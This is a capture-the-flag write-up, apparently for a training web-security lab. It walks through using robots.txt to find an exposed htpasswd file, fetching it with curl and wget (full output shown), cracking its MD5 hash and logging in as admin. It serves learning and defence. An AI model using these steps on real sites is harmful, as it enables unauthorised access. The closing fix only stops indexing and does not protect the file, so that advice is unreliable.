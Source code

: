 # Admin(htpasswd)

If we go to <http://192.168.31.133/robots.txt> we will find 2 folders disallowed - `/whatever` and `/.hidden`.
Let's check <http://192.168.31.133/whatever/>

```
daniseed@DESKTOP:~/darkly$  curl -v 192.168.31.133/whatever/
*   Trying 192.168.31.133:80...
* TCP_NODELAY set
* Connected to 192.168.31.133 (192.168.31.133) port 80 (#0)
> GET /whatever/ HTTP/1.1
> Host: 192.168.31.133
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:25:44 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
<
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>
* Connection #0 to host 192.168.31.133 left intact


*   Trying 192.168.31.133:80...
* TCP_NODELAY set
* Connected to 192.168.31.133 (192.168.31.133) port 80 (#0)
> GET /whatever/htpasswd HTTP/1.1
> Host: 192.168.31.133
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Tue, 09 May 2023 17:26:29 GMT
< Content-Type: application/octet-stream
< Content-Length: 38
< Last-Modified: Tue, 29 Jun 2021 18:09:05 GMT
< Connection: keep-alive
< ETag: "60db61c1-26"
< Accept-Ranges: bytes
<
root:437394baff5aa33daa618be47b75cb49
* Connection #0 to host 192.168.31.133 left intact
```

OR

```
daniseed@DESKTOP:~/darkly$ wget http://192.168.31.133/whatever/htpasswd
--2023-05-09 18:05:11--  http://192.168.31.133/whatever/htpasswd
Connecting to 192.168.31.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38 [application/octet-stream]
Saving to: ‘htpasswd’

htpasswd                          100%[==========================================================>]      38  --.-KB/s    in 0s

2023-05-09 18:05:11 (2.11 MB/s) - ‘htpasswd’ saved [38/38]



daniseed@DESKTOP:~/darkly$ cat htpasswd
root:437394baff5aa33daa618be47b75cb49
```

We have login-password combination: `root:437394baff5aa33daa618be47b75cb49`

But it doesn't work on its own. So lets try and dehash it with [crackstation](https://crackstation.net/).
The password is encrypted with md5 - `qwerty123@`

Input this on <http://192.168.31.133/admin/> and we have our flag

## Explanation

Attack type: [Information exposure](https://cwe.mitre.org/data/definitions/200.html): robots.txt

> The file robots.txt is used to give instructions to web robots, such as search engine crawlers, about locations within the web site that robots are allowed, or not allowed, to crawl and index. It is often used to identify restricted or private areas of a site's contents. The information in the file may therefore help an attacker to map out the site's contents, especially if some of the locations identified are not linked from elsewhere in the site. If the application relies on robots.txt to protect access to these areas, and does not enforce proper access control over them, then this presents a serious vulnerability. [more](https://portswigger.net/kb/issues/00600600_robots-txt-file)

So the robots.txt file is often used as a primary source of information about hidden areas of the web site.

## How to fix it

>  You should not assume that all web robots will honor the file's instructions. Rather, assume that attackers will pay close attention to any locations identified in the file. Do not rely on robots.txt to provide any kind of protection over unauthorized access.

By adding this code to .htaccess file we can close robots.txt from indexing and following the hyperlink
```
<FilesMatch "robots.txt">
	Header set X-Robots-Tag "noindex, nofollow"
</FilesMatch>
```